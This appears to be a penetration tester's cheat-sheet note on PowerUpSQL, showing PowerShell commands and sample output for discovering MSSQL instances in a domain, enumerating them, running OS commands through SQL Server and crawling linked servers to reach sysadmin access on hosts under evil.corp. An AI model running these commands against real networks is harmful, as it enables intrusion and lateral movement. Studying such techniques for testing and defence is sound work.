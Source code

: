 # PowerUpSQL

## [[Vulnerable Machines]]
## Discovery
- `Get-SQLInstanceDomain`
  Searching for SPNs that begin with `MSSQL*`
- `Get-SQLInstanceBroadcast` 
- `Get-SQLInstanceScanUDP`
- [[BloodHound#Database Server]]

```ps
Get-SQLInstanceDomain

ComputerName     : srv1.edu.evil.corp
Instance         : srv1.edu.evil.corp,1433
DomainAccountSid : 150000[ ...snip... ]172110400
DomainAccount    : svc_mssql
DomainAccountCn  : MS SQL Service
Service          : MSSQLSvc
Spn              : MSSQLSvc/srv1.edu.evil.corp:1433
LastLogon        : 5/14/2022 2:24 PM
Description      :
```

## Auto information gathering
```ps
Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
```

## Test Login
```ps
Get-SQLConnectionTest -Instance "srv1.edu.evil.corp,1433" | fl

ComputerName : srv1.edu.evil.corp
Instance     : srv1.edu.evil.corp,1433
Status       : Accessible
```

## Gather information
```ps
Get-SQLServerInfo -Instance "srv1.edu.evil.corp,1433"

ComputerName           : srv1.edu.evil.corp
Instance               : SRV1
DomainName             : EDU
ServiceProcessID       : 3960
ServiceName            : MSSQLSERVER
ServiceAccount         : EDU\svc_mssql
AuthenticationMode     : Windows Authentication
ForcedEncryption       : 0
Clustered              : No
SQLServerVersionNumber : 13.0.5026.0
SQLServerMajorVersion  : 2019
SQLServerEdition       : Standard Edition (64-bit)
SQLServerServicePack   : SP2
OSArchitecture         : X64
OsMachineType          : ServerNT
OSVersionName          : Windows Server 2016 Datacenter
OsVersionNumber        : SQL
Currentlogin           : EDU\john
IsSysadmin             : Yes
ActiveSessions         : 1
```

## SQL Query
```ps
Get-SQLQuery -Instance "srv1.edu.evil.corp,1433" -Query "select @@servername"

Column1
-------
SRV1
```

## [[SQL Command Execution]]
### Command Execution
```ps
Invoke-SQLOSCmd -Instance "srv1.edu.evil.corp,1433" -Command "whoami" -RawResults

edu\svc_mssql
```

## [[SQL Lateral Movement]]
### Crawl SQL Server Link
Manually querying databases to find links can be cumbersome and time-consuming, so you can also use `Get-SQLServerLinkCrawl` to automatically crawl all available links.
```ps
Get-SQLServerLinkCrawl -Instance "srv1.edu.evil.corp,1433"

Version     : SQL Server 2016 
Instance    : SRV1
CustomQuery : 
Sysadmin    : 1
Path        : {SRV1}
User        : EDU\john
Links       : {SQL-1.EVIL.CORP}

Version     : SQL Server 2016 
Instance    : SQL-1
CustomQuery : 
Sysadmin    : 1
Path        : {SRV1, SQL-1.EVIL.CORP}
User        : sa
Links       : {SQL01.evil.external}

Version     : SQL Server 2019 
Instance    : SQL01\SQLEXPRESS
CustomQuery : 
Sysadmin    : 1
Path        : {SRV1, SQL-1.EVIL.CORP, SQL01.evil.external}
User        : sa
Links       :
```

```meta
requirements: 
results: 
oss: #win
source: https://github.com/NetSPI/PowerUpSQL
description: SQL Exploitation Tools
```